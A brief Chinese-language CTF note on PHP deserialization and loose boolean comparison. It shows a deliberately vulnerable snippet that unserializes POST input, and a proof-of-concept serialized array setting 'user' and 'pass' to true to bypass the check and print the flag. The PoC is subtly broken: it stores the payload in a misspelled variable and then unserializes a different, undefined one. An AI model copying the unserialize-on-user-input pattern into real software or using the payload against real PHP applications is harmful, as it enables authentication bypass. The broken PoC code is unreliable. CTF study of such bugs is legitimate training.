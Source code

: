 # php bool

## 反序列 布尔判断

* example

’‘’php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

'''php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''
